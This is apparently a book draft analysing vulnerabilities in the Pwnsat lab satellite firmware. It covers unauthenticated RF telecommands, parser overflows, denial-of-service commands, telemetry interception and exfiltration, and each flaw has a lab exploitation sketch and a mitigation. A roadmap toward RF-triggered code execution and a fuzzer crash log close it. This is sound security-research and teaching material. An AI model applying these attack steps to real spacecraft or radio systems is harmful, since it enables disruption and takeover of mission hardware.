









# Firmware Vulnerability and Exploitation Draft

This draft captures the vulnerabilities discovered during source-code review of the Pwnsat firmware. It is intended as raw material for later exploitation chapters. Every exploitation path assumes an isolated Pwnsat/FlatSat lab target, authorized RF equipment, and legal frequency/power settings.

The firmware exposes two command ingress paths:

```text
RF uplink -> ASCII-hex decode -> SPP parser -> APID dispatcher -> command handler
USB CDC   -> framed raw bytes  -> SPP parser -> APID dispatcher -> command handler
```

The key architectural issue is that both paths converge on `commandHandler()` and then `commandApidHandler()` without authentication, authorization, replay protection, or APID direction enforcement.

## Validated Architecture

| Area | Evidence | Notes |
| --- | --- | --- |
| Uplink radio | `ruplink.h`, `ruplink.cpp` | SX1262 on 918 MHz, BW 250 kHz, SF7, CR5. |
| Downlink radio | `rdownlink.h`, `rdownlink.cpp` | SX1262 on 916 MHz, BW 250 kHz, SF7, CR5. |
| SPP parser | `spp.cpp` | Parses primary header, validates version, copies data field. |
| APID registry | `mission.h` | Defines APIDs `0x01` through `0x08`. |
| Command dispatcher | `worker.cpp` | Executes reset, thruster, beacon, broadcast, flash, and version handlers. |
| Sensor telemetry | `sensors.cpp`, `pins.h` | BME280 at `0x76`; I2C on SDA 20/SCL 21. |
| Build artifacts | `firmware/build/rp2040.rp2040.generic` | ELF, map, bin, and UF2 are present for reversing. |

## APID Attack Surface

| APID | Name | Handler Behavior | Security Notes |
| --- | --- | --- | --- |
| `0x01` | PING | Sends ACK telemetry. | Useful for liveness checks, replay testing, and timing. |
| `0x02` | RESETC | Blinks LEDs and calls watchdog reset. | Unauthenticated denial of service. |
| `0x03` | SEND_FW | Returns firmware version. | Information disclosure; helps fingerprint target. |
| `0x04` | SET_THRUSTER | Sets simulated thruster power from two payload bytes. | Unauthorized actuator-style state change. |
| `0x05` | SET_BEACON_RATE | Sets beacon interval from one payload byte. | Accepts zero seconds, enabling beacon flood. |
| `0x06` | BROADCAST_MSG | Reads two-byte frequency, copies remaining payload, transmits on requested frequency. | Integer underflow and arbitrary lab RF retune attempt. |
| `0x07` | FLASH | Sends a chunked 255-byte image/blob over telemetry. | Repeatable blocking transmission and data exfiltration primitive. |
| `0x08` | SEND_TM | Periodic telemetry APID. | Cleartext sensor and thruster state exposure. |

## VULN-001: Unauthenticated RF Telecommand Execution

**Class:** Missing authentication and authorization.

**Evidence:**

- `uplinkRadioCheckPacketReceived()` receives data, converts ASCII hex to raw bytes, and invokes the registered callback.
- `setup()` registers `commandHandler` as the RF callback.
- `commandHandler()` parses the packet and dispatches by APID.
- No cryptographic authentication, source validation, authorization table, or replay protection appears before dispatch.

**Impact:**

Any lab transmitter that matches the configured LoRa parameters can attempt telecommands. The result is unauthorized access to reset, beacon, thruster, broadcast, flash, and version handlers.

**SPARTA Mapping:**

- `IA-0008.01 Rogue Ground Station`
- `EX-0001.01 Command Packets`

**Lab Exploitation Sketch:**

1. Configure a lab transmitter for the uplink parameters.
2. Build a valid SPP telecommand frame with packet type `TC`.
3. ASCII-hex encode the raw frame for the RF input path.
4. Transmit the frame and observe downlink/USB response.

**Expected Result:**

The board accepts commands without proving that the transmitter is authorized.

**Mitigation:**

Add message authentication, command authorization, anti-replay counters, and explicit APID/type policy before `commandApidHandler()`.

## VULN-002: Cleartext Telemetry Downlink

**Class:** Missing confidentiality and integrity protection.

**Evidence:**

- Telemetry builders in `worker.cpp` pack sensor values and state into plaintext buffers.
- `transmitPacketRadioUSB()` writes the same packet to USB CDC and downlink radio.
- `downlinkRadioTransmit()` and `downlinkRadioTransmitNBlock()` send raw SPP bytes.

**Impact:**

Any compatible lab receiver can decode telemetry values, firmware version responses, ACKs, idle packets, and flash-transfer chunks.

**SPARTA Mapping:**

- `REC-0005.02 Downlink Intercept`
- `EXF-0003.02 Downlink Exfiltration`

**Lab Exploitation Sketch:**

1. Configure a receiver for 916 MHz, BW 250 kHz, SF7, CR5.
2. Capture downlink frames during normal telemetry intervals.
3. Parse the SPP primary header.
4. Decode APID `0x08` as telemetry and correlate fields with I2C sensor reads.

**Expected Result:**

Telemetry can be read without keys, pairing, authentication, or transport security.

**Mitigation:**

Use authenticated encryption or at minimum integrity protection for mission-sensitive telemetry. Add packet counters and receiver-side replay detection.

## VULN-003: SPP Parser Out-of-Bounds Read on Truncated Packets

**Class:** Length validation failure.

**Evidence:**

`spp_unpack_packet()` validates:

- `buffer_len >= 6`
- `version == 0`
- `header.length <= SPP_MAX_PAYLOAD_CHUNK`

It does not validate:

```text
buffer_len >= SPP_PRIMARY_HEADER_LEN + header.length + 1
```

Then it copies:

```text
memcpy(space_packet->data, buffer + 6, header.length + 1)
```

**Impact:**

A packet can declare a larger data field than the actual received frame. The parser will read beyond the received buffer into adjacent stack memory. Depending on runtime layout, this may cause malformed command data, instability, or data-dependent behavior inside handlers.

**SPARTA Mapping:**

- `EX-0013.02 Erroneous Input`

**Lab Exploitation Sketch:**

1. Build a valid six-byte SPP header with a small APID such as `0x06`.
2. Set `length` to a value accepted by the parser.
3. Send fewer payload bytes than the declared `length + 1`.
4. Observe whether handler behavior changes based on adjacent memory read into `space_packet->data`.

**Expected Result:**

The parser accepts a truncated packet and copies bytes that were not part of the received frame.

**Mitigation:**

Reject packets unless `buffer_len == 6 + length + 1`, or define and enforce a documented trailing-byte policy.

## VULN-004: Broadcast APID Integer Underflow and Unsafe Copy

**Class:** Integer underflow leading to memory corruption.

**Evidence:**

The APID `0x06` handler assumes the payload contains at least a two-byte frequency field:

```text
frequency = data[0] << 8 | data[1]
payload_total = header.length + 1
msg_len = payload_total - 2
memcpy(buffer_msg, data + 2, msg_len)
```

If the declared data field is shorter than two bytes, `msg_len` underflows because it is a `size_t`. The destination buffer is `SPP_MAX_PAYLOAD_CHUNK` bytes, but the copy length becomes extremely large.

**Impact:**

This is the strongest memory-corruption candidate in the current firmware. In the lab it may cause crash, reset, stack corruption, or, with careful control of layout and payload, control-flow corruption.

**SPARTA Mapping:**

- `EX-0013.02 Erroneous Input`
- `EX-0001.01 Command Packets`

**Lab Exploitation Sketch:**

1. Build a TC packet for APID `0x06`.
2. Use a data length field that results in `payload_total < 2`.
3. Send the packet over USB first for repeatable debugging.
4. Repeat over RF after confirming behavior locally.
5. Use the ELF/map file to guide crash triage and stack-layout analysis.

**Expected Result:**

The handler attempts an oversized copy from `data + 2` into a fixed-size local buffer.

**Mitigation:**

Require `payload_total >= 2` before reading frequency. Require `msg_len <= sizeof(buffer_msg)`. Return an error telemetry packet on malformed input.

## VULN-005: RF-Triggered Code Execution Candidate

**Class:** Remote memory corruption reachable from RF.

**Evidence:**

The RF path reaches the vulnerable APID `0x06` handler:

```text
uplinkRadioCheckPacketReceived()
  -> hexStringToBytes()
  -> commandHandler()
  -> spp_unpack_packet()
  -> commandApidHandler()
  -> BROADCAST_MSG unsafe copy
```

The firmware also ships an ELF and map file, which lowers the cost of symbol recovery and crash triage.

**Impact:**

This should be treated as a candidate path for RF-triggered code execution in the lab. The source proves RF reachability and memory corruption. A full RCE claim should be made only after demonstrating control of execution, such as a controlled program counter, controlled fault address, or reliable redirection to a known function.

**SPARTA Mapping:**

- `IA-0008.01 Rogue Ground Station`
- `EX-0013.02 Erroneous Input`

**Lab Exploitation Plan:**

1. Reproduce the crash through USB CDC to simplify iteration.
2. Attach SWD or serial logging to capture fault behavior.
3. Use `firmware.ino.elf` and `firmware.ino.map` to identify function addresses and stack layout.
4. Determine whether the overflow can control saved registers or adjacent stack state.
5. Port the working trigger to RF by ASCII-hex encoding the same SPP frame.

**Mitigation:**

Fix VULN-003 and VULN-004 first. Then add compiler hardening where available, crash telemetry, and command authentication.

## VULN-006: Unauthenticated Reset Denial of Service

**Class:** Command abuse / denial of service.

**Evidence:**

APID `0x02` calls:

```text
watchdog_reboot(0, 0, 0)
```

There is no authentication, confirmation, rate limit, safe-mode check, or command role separation.

**Impact:**

An attacker in the lab RF environment can repeatedly reboot the board and prevent stable telemetry or command processing.

**SPARTA Mapping:**

- `EX-0001.01 Command Packets`
- `DE-0002.03 Inhibit Spacecraft Functionality`

**Lab Exploitation Sketch:**

1. Send APID `0x02` as a valid TC packet.
2. Observe LED sequence and reboot.
3. Repeat at intervals shorter than mission recovery time.

**Expected Result:**

The board remains unavailable or unstable.

**Mitigation:**

Require authentication and elevated authorization for reset. Add rate limits, command confirmation, and lockout after repeated reset attempts.

## VULN-007: Beacon-Rate Abuse and Mission Loop Starvation

**Class:** Logic flaw / denial of service.

**Evidence:**

APID `0x05` reads one byte:

```text
b_seconds = data[0]
if (b_seconds > 10) reject
t_radio_beacon.interval = b_seconds * 1000
```

The value `0` is accepted. The telemetry worker then sends beacon packets whenever:

```text
t_radio_beacon.interval != 15000 &&
millis() - previous > interval
```

With interval `0`, the condition is true almost continuously.

**Impact:**

The board can be forced into excessive beacon transmission, increasing RF/USB traffic and starving normal mission behavior. This is a practical DoS against the mission loop running on the main core.

**SPARTA Mapping:**

- `EX-0001.01 Command Packets`
- `DE-0002.03 Inhibit Spacecraft Functionality`

**Lab Exploitation Sketch:**

1. Send APID `0x05` with payload `0x00`.
2. Monitor downlink and USB traffic.
3. Confirm increased beacon rate and degraded telemetry scheduling.

**Mitigation:**

Reject `0`, enforce a minimum interval, rate-limit configuration changes, and separate beacon scheduling from command processing.

## VULN-008: Flash-Transfer Command as Blocking DoS and Data Exfiltration

**Class:** Command abuse / exfiltration.

**Evidence:**

APID `0x07` invokes `telemetrySPPTransmitFlash()`, which:

- Sets `block_tx = true`.
- Sends the static `image_data` array in chunks.
- Uses blocking transmit and `delay(100)` per chunk.
- Suppresses normal telemetry while `block_tx` is true.

**Impact:**

Repeated flash-transfer requests can degrade mission telemetry and force repeated disclosure of the embedded blob.

**SPARTA Mapping:**

- `EX-0001.01 Command Packets`
- `EXF-0003.02 Downlink Exfiltration`
- `DE-0002.03 Inhibit Spacecraft Functionality`

**Lab Exploitation Sketch:**

1. Send APID `0x07`.
2. Capture APID `0x07` telemetry chunks.
3. Reassemble by packet index and offset.
4. Repeat the command to observe telemetry starvation.

**Mitigation:**

Authenticate file-transfer commands, add transfer quotas, move long transfers to a controlled state machine, and avoid blocking normal telemetry.

## VULN-009: Unauthorized Thruster State Manipulation

**Class:** Unauthorized actuator-style command.

**Evidence:**

APID `0x04` reads:

```text
thruster_id = data[0]
thruster_power = data[1]
```

It then updates simulated thruster power without authentication or range policy beyond the `uint8_t` type.

**Impact:**

The lab attacker can change mission state reflected in telemetry. On a real spacecraft, analogous actuator commands would require strong authorization and safety interlocks.

**SPARTA Mapping:**

- `EX-0001.01 Command Packets`
- `EX-0014.02 Bus Traffic Spoofing`, when used to manipulate operator-visible state through accepted command/data paths.

**Lab Exploitation Sketch:**

1. Send APID `0x04` with `thruster_id = 0` or `1`.
2. Set a visible power value.
3. Observe the changed thruster fields in subsequent APID `0x08` telemetry.

**Mitigation:**

Authenticate actuator commands, enforce allowed ranges, require mode checks, and emit audit telemetry.

## VULN-010: USB CDC Parser Can Stall on Oversized Declared Frames

**Class:** Framing logic flaw / local denial of service.

**Evidence:**

`obcUSBRecv()` accepts a two-byte frame length. It rejects `len > MAX_FRAME_SIZE`, but `len == MAX_FRAME_SIZE` is accepted even though the total frame is `HEADER_SIZE + len`, which is larger than the receive buffer.

When the parser sees a valid header and a large length that cannot fit in the current buffer, it breaks waiting for more bytes. If the buffer fills, the next call resets `rx_len`.

**Impact:**

A local USB sender can interfere with the USB command path and force parser resynchronization. This affects the second RP2040 core path used for USB CDC handling.

**SPARTA Mapping:**

- `DE-0002.03 Inhibit Spacecraft Functionality`

**Lab Exploitation Sketch:**

1. Send USB frame header `0xAA 0x55`.
2. Declare a length near the maximum boundary.
3. Withhold or fragment the body.
4. Observe USB command handling degradation or parser reset.

**Mitigation:**

Reject frames where `HEADER_SIZE + len > sizeof(rx_buffer)`. Add timeout-based frame discard and per-source rate limiting.

## VULN-011: Sensor Telemetry Trust and I2C Spoofing Surface

**Class:** Unauthenticated internal bus data.

**Evidence:**

The firmware initializes I2C on SDA 20/SCL 21, reads BME280 and LIS2DH12 values, and packs them into APID `0x08` telemetry. The return status from `bmeRead()` and `accelerometerRead()` is not used to suppress or mark invalid telemetry in `telemetryRadioWorker()`.

**Impact:**

With physical lab access, a researcher can manipulate sensor readings or bus behavior and observe downstream telemetry effects. This can mislead operator workflows that trust telemetry without plausibility checks.

**SPARTA Mapping:**

- `REC-0001.04 Data Bus Information`
- `EX-0014.03 Sensor Data`
- `EX-0014.02 Bus Traffic Spoofing`, when sensor manipulation is performed through an internal bus.

**Lab Exploitation Sketch:**

1. Capture I2C traffic during telemetry generation.
2. Correlate changed sensor values with APID `0x08`.
3. Emulate or manipulate sensor responses in a controlled setup.
4. Observe forged values in downlink telemetry.

**Mitigation:**

Use plausibility checks, sensor error flags, range limits, redundant measurements, and authenticated bus designs for critical data where feasible.

## Prioritized Exploitation Roadmap

| Priority | Target | Why |
| --- | --- | --- |
| 1 | SPP parser truncation and APID `0x06` underflow | Strongest path toward memory corruption and possible RF-triggered control-flow hijack. |
| 2 | Unauthenticated reset and beacon DoS | Simple, reliable, highly demonstrable. |
| 3 | Cleartext downlink telemetry | Foundational for protocol reversing and operator-state awareness. |
| 4 | Flash-transfer exfiltration | Good bridge between command injection and data reconstruction. |
| 5 | Thruster state manipulation | Useful mission-impact demonstration. |
| 6 | USB CDC frame stalling | Good local/second-core DoS exercise. |
| 7 | I2C telemetry spoofing | Completes the hardware-to-telemetry attack chain. |

## Evidence Checklist for Future Chapters

Before writing the final exploitation chapters, collect:

- A valid APID `0x01` RF ping and downlink ACK.
- A downlink APID `0x08` telemetry capture.
- A reset demonstration with APID `0x02`.
- A beacon flood demonstration with APID `0x05` payload `0x00`.
- A flash-transfer capture and reassembly.
- A crash log or debugger trace for APID `0x06` malformed payload.
- A USB CDC reproduction of the same APID `0x06` bug.
- A logic analyzer trace linking I2C sensor reads to telemetry changes.

## Notes for Wording in the Book

Use careful claim levels:

- "Confirmed unauthenticated command execution" is supported by source code.
- "Confirmed cleartext telemetry" is supported by source code.
- "Confirmed memory-corruption candidate" is supported by the APID `0x06` unsafe copy.
- "RF-triggered code execution" should remain a candidate until a debugger trace proves control of execution.
- The USB CDC denial-of-service scenario should be described as affecting the USB CDC core or second-core command path, because RP2040 exposes core 0 and core 1 rather than a numbered third core.


# Fuzzing Draft


compile


dict


pack


Unpack


```shell
╭─[NULLDOGS-seecwinter | 192.168.0.20] ~/Desktop/Booklet_V1                                                                                                                               20:05:58
╰──▶ ./resources/fuzzing/fuzzing/output/fuzz_spp_unpack  -runs=5000  -dict=resources/fuzzing/fuzzing/spp.dict  resources/fuzzing/fuzzing/corpus
fuzz_spp_unpack(3181,0x1f8d86240) malloc: nano zone abandoned due to inability to reserve vm space.
Dictionary: 8 entries
INFO: Running with entropic power schedule (0xFF, 100).
INFO: Seed: 1520146530
INFO: Loaded 1 modules   (56 inline 8-bit counters): 56 [0x1020cc1a8, 0x1020cc1e0),
INFO: Loaded 1 PC tables (56 PCs): 56 [0x1020cc1e0,0x1020cc560),
INFO:        9 files found in resources/fuzzing/fuzzing/corpus
INFO: -max_len is not provided; libFuzzer will not generate inputs larger than 4096 bytes
INFO: seed corpus: files: 9 min: 1b max: 20b total: 89b rss: 42Mb
#10	INITED cov: 13 ft: 13 corp: 5/44b exec/s: 0 rss: 43Mb
=================================================================
==3181==ERROR: AddressSanitizer: heap-buffer-overflow on address 0x602000000bfe at pc 0x000102681ae8 bp 0x00016dd79cd0 sp 0x00016dd79480
READ of size 68 at 0x602000000bfe thread T0
    #0 0x000102681ae4 in __asan_memcpy+0x3e4 (libclang_rt.asan_osx_dynamic.dylib:arm64+0x51ae4)
    #1 0x000102085630 in spp_unpack_packet spp.c:108
    #2 0x000102085b28 in LLVMFuzzerTestOneInput fuzz_spp_unpack.c:16
    #3 0x0001020a173c in fuzzer::Fuzzer::ExecuteCallback(unsigned char const*, unsigned long) FuzzerLoop.cpp:619
    #4 0x0001020a0ecc in fuzzer::Fuzzer::RunOne(unsigned char const*, unsigned long, bool, fuzzer::InputInfo*, bool, bool*) FuzzerLoop.cpp:516
    #5 0x0001020a2cf8 in fuzzer::Fuzzer::MutateAndTestOne() FuzzerLoop.cpp:765
